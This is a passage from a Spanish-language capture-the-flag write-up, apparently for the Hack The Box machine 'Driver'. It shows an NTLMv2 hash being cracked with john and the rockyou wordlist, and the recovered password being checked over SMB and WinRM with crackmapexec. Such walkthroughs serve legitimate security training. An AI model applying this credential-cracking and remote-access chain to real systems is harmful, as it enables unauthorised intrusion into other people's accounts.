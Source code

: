 Ahora lo que vamos a hacer es crackear el **hash**

```bash
❯ catn hash
tony::DRIVER:aaaaaaaaaaaaaaaa:56b838deb5548260bac18adeb656beb1:010100000000000080bd3170419ad9016b7d283652991d1d000000000100100070005700760065004a00630074006f000300100070005700760065004a00630074006f0002001000690043004f005800670073004800630004001000690043004f00580067007300480063000700080080bd3170419ad901060004000200000008003000300000000000000000000000002000007d56943e2a2cccd215c04e6870ed829aa62c358c99631b089f4e2d429dbc55500a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003900000000000000000000000000

```

```bash
❯ john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)
1g 0:00:00:00 DONE (2023-06-08 13:48) 3.846g/s 122092p/s 122092c/s 122092C/s !!!!!!..225566
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

Vamos a validar si las credenciales son validas con **crackmapexec** **tony:liltony** y si es valida 

```bash
❯ crackmapexec smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony 
```

Ahora lo que vamos a hacer es revisar si ponemos conectarnos con **evil-winrm** y si podemos

```bash
❯ crackmapexec winrm 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    5985   NONE             [*] None (name:10.10.11.106) (domain:None)
HTTP        10.10.11.106    5985   NONE             [*] http://10.10.11.106:5985/wsman
WINRM       10.10.11.106    5985   NONE             [+] None\tony:liltony (Pwn3d!)
WINRM       10.10.11.106    5985   NONE             [-] None\tony:liltony "'NoneType' object has no attribute 'upper'"
```

Si validamos con **smbmap** los recursos compartidos a nivel de red básicamente solo tenemos permiso de lectura en ese recurso pero como podemos conectarnos por **winrm** 

